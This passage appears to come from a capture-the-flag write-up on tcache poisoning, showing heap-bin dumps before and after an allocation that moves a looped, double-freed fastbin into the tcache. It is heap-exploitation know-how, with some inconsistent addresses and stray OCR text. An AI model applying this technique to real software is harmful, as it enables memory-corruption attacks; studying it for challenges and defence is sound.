 ### Tcache Poisoning

Now, when we request a `0x20` size chunk, it would first go through `tcachebins`
until it's empty. When we empty out the `tcachebins`, the next allocation request
would go to `fastbin` and the rest of the bins would be dumped into `tcachebins`.
But how do we empty out the `tcachebins`? Using `scream` is not ideal as
the chunks would get freed again. The answer is to simply create a rating.
This is because the allocation is done before the rating count validation check.

Before allocation request

```console
----------------------------------- Tcachebins for arena 'main_arena' -----------------------------------
tcachebins[idx=1, size=0x30, @0x555555563098] count=2
 -> Chunk(addr=0x5555555752a0, size=0x30, flags=PREV_INUSE, fd=0x5550000200d5, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x555555575590, size=0x30, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=3, size=0x50, @0x5555555630a8] count=2
 -> Chunk(addr=0x5555555752d0, size=0x50, flags=PREV_INUSE, fd=0x555000020645, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x555555575320, size=0x50, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=7, size=0x90, @0x5555555630c8] count=1
 -> Chunk(addr=0x5555555755e0, size=0x90, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=15, size=0x110, @0x555555563108] count=1
 -> Chunk(addr=0x5555555756b0, size=0x110, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
[+] Found 6 chunks in tcache.
------------------------------------ Fastbins for arena 'main_arena' ------------------------------------
fastbins[idx=0, size=0x20, @0x7ffff7c17ad0]
 -> Chunk(addr=0x5555555754f0, size=0x20, flags=PREV_INUSE, fd=0x555000020065, bk=0x00000000000a)
 -> Chunk(addr=0x555555575510, size=0x20, flags=PREV_INUSE, fd=0x555000020185, bk=0x00000000000a)
 -> Chunk(addr=0x5555555754f0, size=0x20, flags=PREV_INUSE, fd=0x555000020065, bk=0x00000000000a)
 -> 0x555555575500 [loop detected]
[+] Found 2 chunks in fastbin.
```

After allocation request: `0x560c41f0d4f0` is allocated, which is the first
free chunk in `fastbin`, and the remaining chunks are dumped into `tcachebins`.

```console
----------------------------------- Tcachebins for arena 'main_arena' -----------------------------------
tcachebins[idx=0, size=0x20, @0x560c41efb090] count=3
 -> Chunk(addr=0x560c41f0d510, size=0x20, flags=PREV_INUSE, fd=0x56092134ca0d, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x560c41f0d4f0, size=0x20, flags=PREV_INUSE, fd=0x56092134ca2d, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x560c41f0d510, size=0x20, flags=PREV_INUSE, fd=0x56092134ca0d, bk=0x6ee603c65e3f27c0)
 -> 0x560c41f0d520 [loop detected]two chunk
tcachebins[idx=1, size=0x30, @0x560c41efb098] count=2
 -> Chunk(addr=0x560c41f0d2a0, size=0x30, flags=PREV_INUSE, fd=0x56092134caad, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x560c41f0d590, size=0x30, flags=PREV_INUSE, fd=0x000560c41f0d, bk=0x6ee603c65e3f27c0)
tcachebins[idx=3, size=0x50, @0x560c41efb0a8] count=2
 -> Chunk(addr=0x560c41f0d2d0, size=0x50, flags=PREV_INUSE, fd=0x56092134cc3d, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x560c41f0d320, size=0x50, flags=PREV_INUSE, fd=0x000560c41f0d, bk=0x6ee603c65e3f27c0)
tcachebins[idx=7, size=0x90, @0x560c41efb0c8] count=1
```